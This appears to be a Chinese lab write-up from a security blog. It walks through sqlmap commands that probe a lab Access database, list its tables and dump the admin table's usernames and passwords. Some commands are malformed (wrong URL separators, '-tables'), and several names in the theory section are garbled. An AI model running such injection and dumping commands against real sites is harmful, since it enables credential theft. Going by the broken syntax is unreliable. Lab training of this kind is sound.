 ```yaml
---
layout: post
title: "Sqlmap数据库注入攻击"
description: "Sqlmap数据库注入攻击"
tag: web 安全
---
```


<br />

---

<br />

## **实验目的:**

##### &nbsp;&nbsp;&nbsp;1.利用sqlmap命令破解出access数据中的admin的密码bfpms

<br />

## **实验原理:**

##### &nbsp;&nbsp;&nbsp; SQLMap是一个先进的自动化SQL注入工具，其主要功能是扫描、发现并利用给定的URL的SQL注入漏洞。
##### &nbsp;&nbsp;&nbsp; 目前支持的数据库管理系统包括Ms-soL、MySQL、Oracde和PostgreSQL.也能够识别诸如DB2、Informix. Sybase、Interbase和MS Access之类的数据库系统。
##### &nbsp;&nbsp;&nbsp; SQL Map采用四种独特的SQL注入技术，分别是盲推理SQL注入、UNION查询SQL注入、堆查询和基于时间的SQL盲注人。其广泛的功能和选项包括数据库指纹、枚举、数据提取、访问目标文件系统，并在获取完全操作权限时执行任意命令。
##### &nbsp;&nbsp;&nbsp; 此外，该工具还可以从Burp Proxy直接从Web Scarab日志及标准的文本文件中解析目标列表。更突出的是，它提供采用分类Coogle dorks扫描Oragle拽索引|擎,获取指定目标的功能。

<br />

## **实验步骤:**

<br />

<b>●</b>进入命令行，用su root 切换为root用户

<br>

<b>○</b>输入命令

<code>sqlmap -u http://192.168.1.3；8008/onews.asp:id=45</code> -u扫描注入点及目标主机，检测出的信息准确

<img src="/files/Sqlmap database injection attack/1.png" width="600px" height="300px">

<br />

<b>●</b>输入命令
 
<code>sqlmap -u http://192.168.1.3；8008/onews.asp:id=45 --users</code> 获取到用户名（这里应该是获取不到）

<img src="/files/Sqlmap database injection attack/2.png" width="600px" height="300px">

<br />

<b>○</b>输入命令

<code>sqlmap -u http://192.168.1.3；8008/onews.asp:id=45 --dump -tables</code> 探测数据库和表信息

<img src="/files/Sqlmap database injection attack/3.png" width="600px" height="300px">

<br />

<b>●</b>显示探测出来的字段信息

<img src="/files/Sqlmap database injection attack/4.png" width="600px" height="150px">

<br />

<b>○</b>针对admin表探测出来的结构

<img src="/files/Sqlmap database injection attack/5.png" width="600px" height="150px">

<br />

<br />

<b>●</b>输入命令

<code>sqlmap -u http://192.168.1.3；8008/onews.asp:id=45 --dump -T admin -C admin,password</code> 进行暴库，获得用户名和密码

<img src="/files/Sqlmap database injection attack/6.png" width="600px" height="300px">

<br />

## **实验总结:**

sqlmap功能非常强大，但是若要获取有用的信息，花在注入上的时间还是很多的;

它基于命令行进行操作，操作起来感觉不是蛮难，但是检测出来的的信息却比较难甄别，有很多是关于数据库的，要有数据库基础;

要用好这个工具，需要花时间多练习，多熟练，并且多了解它的其它功能，理解其背后的原理。

